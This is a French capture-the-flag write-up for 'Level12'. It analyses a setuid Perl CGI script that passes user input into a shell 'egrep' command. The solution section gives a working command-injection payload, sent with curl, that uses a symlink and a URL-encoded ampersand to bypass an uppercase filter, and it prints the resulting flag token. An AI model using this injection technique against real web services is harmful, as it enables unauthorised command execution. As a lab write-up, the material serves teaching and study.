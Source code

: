 # [Level12]

### Observations:
##### J'affiche le contenue du programme '~/level12.pl':
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

##### Détails du programme:
```bash
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
```

Je me rend compte que ce programme est exécuté par défaut en tant qu'utilisateur 'flag12' grâce à la commande:
```sh
ps aux | grep flag12
```

##### Entrées du programme:
```perl
string x
string y
```

##### Fonctionnement:
Ce programme est composé de deux fonctions aux utilitées douteuses:
 * La fonction \<t>:
	1. Applique un filtre sur 'x' qui transforme les lettres minuscules en majuscules.
	2. Applique un filtre sur 'x' qui enlève tout ce qu'il y a après un caractère de séparation.
	3. Exécute une commande shell qui utilise la variable 'x' modifiée.
 * La fonction \<n> est inutile dans son fonctionnement.

> Le programme tourne sur un serveur tcp par defaut

##### Conclusions:
Ce programme a une faille dans la fonction \<t> plus précisement au moment d'exécuter la commande shell. \
Nous pouvons insérer la commande que nous voulons dans celle-ci tant que nous respectons ces règles simples:
 - Utiliser uniquement des caractères majuscule.
 - Ne pas écrire de caractères de séparation.

### Résolution
Je créer un lien symbolique léger pour me permettre d'exécuter getflag avec des caractères majuscules. \
J'effectue une requête au serveur avec ma commande à injecter que je redirige dans le flux d'erreur. \
Puis j'affiche la dernière ligne du fichier de log du flux d'erreur.

#### commandes:
```bash
ln -s /bin/getflag /tmp/GETFLAG
curl '127.0.0.1:4646?x="$(/*/GETFLAG>%262)"'
tail -n 1 /var/log/apache2/error.log
```
> Notez l'utilisation du shellcode '%26' pour éviter que le caractère de '&' soit pris en compte dans le filtre de séparateurs.


**token :** g1qKMiRpXf53AWhDaU7FEkczr
